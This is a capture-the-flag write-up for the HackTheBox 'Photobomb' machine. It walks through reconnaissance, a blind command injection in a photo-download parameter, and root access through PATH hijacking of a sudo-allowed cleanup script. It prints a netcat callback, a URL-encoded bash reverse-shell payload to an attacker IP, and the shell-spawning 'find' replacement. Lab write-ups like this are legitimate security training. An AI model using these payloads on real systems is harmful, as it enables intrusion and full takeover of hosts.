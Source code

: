 ```yaml
---
title: Photobomb
tags:
  - HackTheBox
  - Easy
  - Linux
  - Command-Injection
  - Path_Hijacking
date: 2025-06-04T00:00:01Z
---
```

![](Pasted%20image%2020250604202929.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.182 photobomb.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
ports=$(nmap -p- --min-rate=1000 -T4 photobomb.htb | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) 

nmap -p$ports -sC -sV photobomb.htb > sC.txt

[redacted]
PORT     STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Photobomb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So I checked its website:

![](Pasted%20image%2020250604203211.png)

There is a hidden endpoint `/printer` which prompts a login panel:

![](Pasted%20image%2020250604203249.png)

There are credentials inside `photobomb.js`:

![](Pasted%20image%2020250604203356.png)

> Credentials: `pH0t0:b0Mb!`

![](Pasted%20image%2020250604203515.png)

We can download photos:

![](Pasted%20image%2020250604203610.png)

So I'll capture the request with CAIDO:

![](Pasted%20image%2020250604203814.png)

![](Pasted%20image%2020250604204010.png)

## Exploitation

This website may be vulnerable to Blind Command Injection. I tried the following payload inside the parameter `filetype`:

```shell
jpg;nc%2010.10.14.22%20666
```

![](Pasted%20image%2020250604205029.png)

![](Pasted%20image%2020250604205106.png)

So now I'll use the following payload to gain RCE:

```shell
bash%20-c%20'bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.22%2F666%200%3E%261'
```

![](Pasted%20image%2020250604205453.png)

![](Pasted%20image%2020250604205507.png)

### User flag

![](Pasted%20image%2020250604205636.png)

## Privilege Escalation

First I checked for `sudo -l`:

```shell
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

There is a weird file under `/opt` called `cleanup.sh` with the following content:

```shell
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

There is a path hijacking vulnerability in the last command of the script. That means that `bash` will search the directories specified in the `$PATH` environment variable looking for a binary named `find`. Typically, it’ll find `find` in `/usr/bin/find`. Here is where the `SETENV` variable makes sense.

Basically I can create a find script that gives me a shell as root. To do so, I'll create the binary:

```shell
echo -e '#!/bin/bash\n\nbash' > /tmp/find
chmod +x /tmp/find
```

Now I’ll run `cleanup.sh` as root but with the `PATH` variable including the current directory at the front of the path:

```shell
sudo PATH=/tmp/$:$PATH /opt/cleanup.sh
```

### Root flag

![](Pasted%20image%2020250604211507.png)

==Machine pwned!==